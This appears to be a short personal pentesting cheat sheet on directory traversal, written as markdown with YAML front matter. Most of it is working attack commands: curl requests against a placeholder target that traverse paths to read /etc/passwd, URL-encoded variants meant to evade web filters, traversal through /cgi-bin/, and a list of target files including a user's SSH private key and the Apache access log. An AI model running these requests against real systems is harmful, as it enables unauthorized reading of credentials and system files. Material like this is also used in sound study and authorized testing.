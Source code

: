 ```yaml
---
title: Directory Traversal
updated: 2025-04-19 02:54:54Z
created: 2025-04-18 10:37:47Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Directory Traversal allows READING of files

**Note**: web protection and filters can detect directory traversal (ie ../../../../), in which can try to **URL encode** it
***
1. Check web pages, if they call other pages or files
eg
`http://target/cws/index.pgp?page=admin.php`
2. Try to traverse directories using a *relative path*:
`curl http://target/cws/index.pgp?page=../../../../../../../../etc/passwd`
or URL encoded
`curl http://target/cws/index.pgp?page=%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
If successful, download using **curl**
3. Try to traverse directories via the **/cgi-bin/** folder
`curl http://target/cgi-bin/../../../../../../../../etc/passwd`
4. Files to try looking at:
`../../../../../../home/user/.ssh/id_rsa`
`../../../../../../var/log/apache2/access.log`

* * *



